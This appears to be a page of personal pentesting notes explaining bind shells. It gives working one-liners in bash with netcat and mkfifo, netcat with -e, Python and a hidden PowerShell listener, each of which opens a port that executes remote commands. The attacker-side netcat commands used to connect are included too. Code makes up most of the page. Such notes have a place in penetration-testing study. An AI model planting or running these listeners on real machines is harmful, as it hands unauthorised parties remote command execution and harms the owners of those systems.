

repository: amandaguglieri/hackinglife · page: bind-shells/index.html · generator: mkdocs

---
title: Bind Shells
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web pentesting
  - bind shells
---
# Bind shells

??? abstract "All about shells"
    | **Shell Type** | **Description** | 
    | -- | -- |
    | [`Reverse shell`](reverse-shells.md) | Initiates a connection back to a "listener" on our attack box. |
    | [`Bind shell`](bind-shells.md)       | "Binds" to a specific port on the target host and waits for a connection from our attack box. |
    | [`Web shell`](web-shells.md)         | Runs operating system commands via the web browser, typically not interactive or semi-interactive. It can also be used to run single commands (i.e., leveraging a file upload vulnerability and uploading a `PHP` script to run a single command. |


In a bind-shell the attacking machine initiates a connection to a listener port on the victim's machine. 

A basic connection (not a bind shell as there is no interaction with the OS and file system) would be:

```
# Listener listening in the victim's machine, the target
nc -lvnp $port

# Attacker's machine making the connection
nc -nv $ipVictim $port
```


## Bind shell connections

**First step** in this attack is always initiating the listening connection on port $port on the victim's machine,  IP $ipVictim.

### bash

We had complete control over both our attack box and the target system;

```bash
# From the victim's machine
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l $ipVictim $port > /tmp/f
### nc -l $ipVictim $port -> This binds to a specific IP address (denoted by `$ipVictim`). This is useful in multi-homed systems where the machine has more than one network interface, and you want to bind netcat to a particular IP address/interface.

# From the attacker machine
nc -nv $ipVictim $port
```

```bash
# From the victim's machine
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp $port >/tmp/f
### nc -lvp $port  -> This binds to any available network interface on the machine. It listens on the specified port, but it will accept connections on all network interfaces (e.g., localhost, LAN IP, etc.), which might be less restrictive.

# From the attacker machine
nc -nv $ipVictim $port
```

### netcat

```shell-session
nc -lvp 1234 -e /bin/bash
```

###  python

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

### powershell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

**Second step**:  If we have succeeded in previous step, we have a shell waiting for us on the specified port (1234) in the victim's machine. Now, let's  connect to it from our attacking machine:

```
nc 10.10.10.1 1234
# 10.10.10.1 would be the victim's machine
# 1234 would be the listening port on victim's machine
```

Unlike a Reverse Shell, if we drop our connection to a bind shell for any reason, we can connect back to it and get another connection immediately. However, if the bind shell command is stopped for any reason, or if the remote host is rebooted, we would still lose our access to the remote host and will have to exploit it again to gain access.
